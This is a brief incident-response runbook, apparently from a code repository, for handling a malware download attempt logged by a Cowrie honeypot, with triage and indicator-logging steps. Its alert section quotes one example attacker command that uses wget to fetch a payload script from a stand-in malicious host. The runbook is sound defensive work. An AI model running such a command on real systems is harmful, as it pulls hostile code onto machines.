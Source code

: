 # Runbook: Malware Download Attempt

## Alert
- Attacker issued command to download file from remote server
- Example: `wget http://malicious.com/payload.sh`

## Triage Steps
1. Extract URL from Cowrie logs
2. Submit URL to VirusTotal, HybridAnalysis
3. Retrieve hash of payload from sandbox analysis
4. Check GuardDuty for follow-up traffic from host

## Action
- Log IOC (URL, IP, Hash)
- Enrich detection rules with matching strings
- Monitor for future activity from same IP or domain
